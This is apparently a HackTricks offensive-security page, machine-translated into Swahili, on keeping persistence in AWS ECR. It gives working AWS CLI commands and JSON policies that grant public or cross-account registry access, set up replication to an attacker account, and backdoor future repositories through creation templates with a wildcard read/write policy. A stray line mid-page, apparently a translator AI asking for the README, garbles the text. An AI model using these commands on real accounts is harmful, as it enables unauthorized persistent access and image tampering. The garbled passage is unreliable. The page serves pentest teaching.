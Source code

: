 # AWS - ECR Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

Kwa taarifa zaidi angalia:

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Hidden Docker Image with Malicious Code

Mshambulizi anaweza **kupakia Docker image inayobeba malicious code** kwenye ECR repository na kuitumia kudumisha persistence katika target AWS account. Mshambulizi anaweza kisha kupeleka image yenye malicious kwa huduma mbalimbali ndani ya account, kama Amazon ECS au EKS, kwa njia ya kuficha.

### Repository Policy

Ongeza policy kwa repository moja ikikupa wewe (au kila mtu) access kwa repository:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
> [!WARNING]
> Tambua kwamba ECR inahitaji watumiaji kuwa na **idhini** ya kuita API ya **`ecr:GetAuthorizationToken`** kupitia sera ya IAM **kabla ya wao kuweza kuthibitisha** kwenye registry na push au pull images yoyote kutoka kwenye Amazon ECR repository.

### Sera ya Registry & Nakili Kati ya Akaunti

Inawezekana kunakili moja kwa moja registry katika akaunti ya nje kwa kusanidi cross-account replication, ambapo unahitaji **kuonyesha akaunti ya nje** unayotaka kunakili registry.

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

Kwanza, unahitaji kumpa akaunti ya nje ufikiaji wa registry kwa **sera ya registry** kama:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
I don't have the README.md content or the replication config. Please paste the README.md text and the replication config you want applied. I will then translate the relevant English to Swahili, preserving all markdown/html tags, links, paths and code as you requested.
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
### Repository Creation Templates (prefix backdoor for future repos)

Tumia vibaya ECR Repository Creation Templates ili ku-backdoor kwa otomatiki repository yoyote ambayo ECR huunda kwa auto chini ya prefix iliyodhibitiwa (kwa mfano kupitia Pull-Through Cache au Create-on-Push). Hii inatoa ufikiaji wa kudumu usioidhinishwa kwa repos za baadaye bila kugusa zile zilizopo.

- Ruhusa zinazohitajika: ecr:CreateRepositoryCreationTemplate, ecr:DescribeRepositoryCreationTemplates, ecr:UpdateRepositoryCreationTemplate, ecr:DeleteRepositoryCreationTemplate, ecr:SetRepositoryPolicy (used by the template), iam:PassRole (kama role maalum imeambatanishwa na template).
- Athari: Kila repository mpya inayoundwa chini ya prefix lengwa inarithi kwa otomatiki repository policy inayodhibitiwa na mshambuliaji (mfano, cross-account read/write), tag mutability, na scanning defaults.

<details>
<summary>Backdoor future PTC-created repos under a chosen prefix</summary>
```bash
# Region
REGION=us-east-1

# 1) Prepare permissive repository policy (example grants everyone RW)
cat > /tmp/repo_backdoor_policy.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "BackdoorRW",
"Effect": "Allow",
"Principal": {"AWS": "*"},
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer",
"ecr:InitiateLayerUpload",
"ecr:UploadLayerPart",
"ecr:CompleteLayerUpload",
"ecr:PutImage"
]
}
]
}
JSON

# 2) Create a Repository Creation Template for prefix "ptc2" applied to PULL_THROUGH_CACHE
aws ecr create-repository-creation-template   --region $REGION   --prefix ptc2   --applied-for PULL_THROUGH_CACHE   --image-tag-mutability MUTABLE   --repository-policy file:///tmp/repo_backdoor_policy.json

# 3) Create a Pull-Through Cache rule that will auto-create repos under that prefix
#    This example caches from Amazon ECR Public namespace "nginx"
aws ecr create-pull-through-cache-rule   --region $REGION   --ecr-repository-prefix ptc2   --upstream-registry ecr-public   --upstream-registry-url public.ecr.aws   --upstream-repository-prefix nginx

# 4) Trigger auto-creation by pulling a new path once (creates repo ptc2/nginx)
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com

docker pull ${acct}.dkr.ecr.${REGION}.amazonaws.com/ptc2/nginx:latest

# 5) Validate the backdoor policy was applied on the newly created repository
aws ecr get-repository-policy --region $REGION --repository-name ptc2/nginx --query policyText --output text | jq .
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
